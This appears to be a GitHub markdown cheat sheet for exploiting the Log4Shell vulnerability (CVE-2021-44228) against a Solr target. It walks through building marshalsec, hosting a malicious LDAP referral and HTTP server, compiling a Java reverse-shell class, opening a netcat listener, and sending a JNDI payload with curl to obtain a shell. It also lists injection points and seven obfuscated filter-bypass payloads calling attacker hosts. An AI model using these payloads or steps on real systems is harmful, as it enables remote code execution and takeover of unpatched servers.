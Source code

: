 ## CVE-2021–44228 Log4j

### CVSS Score: 10

### Tools: mvn marshalsec netcat JNDI Exploit kit https://github.com/pimps/JNDI-Exploit-Kit

### Payload example: ${jndi:ldap://ATTACKER_IP:1389/Exploit.class}

## Steps: 

#### 1) cd /marshalsec

#### 2) mvn clean package -DskipTests (Install marshalsec utility)

#### 3) java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit" (Host LDAP server with marshalsec)

#### 4) Create a java reverse shell exploit (Exploit.java)

#### 5) javac Exploit.java -target 8 -source 8 (Compile the java exploit into a class file (Exploit.class))

#### 6) python3 -m http.server 8000 (Host compiled payload to HTTP server)

#### 7)  nc -lvnp PORT (Setup listener)

#### 8) curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}' (Send payload to target machine to get a reverse shell)

## JNDI syntax injection:

#### 1) Anywhere that has data logged by the application

#### 2) Input boxes, user and password login forms, data entry points within applications

#### 3) HTTP headers such as User-Agent, X-Forwarded-For, X-ApiVersion, or other customizable headers

#### 4) Any place for user-supplied data

## Bypass examples:

#### 1) ${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

#### 2) ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

#### 3) ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

#### 4) ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

#### 5) ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

#### 6) ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

#### 7) ${${::-j}ndi:rmi://attackerendpoint.com/}
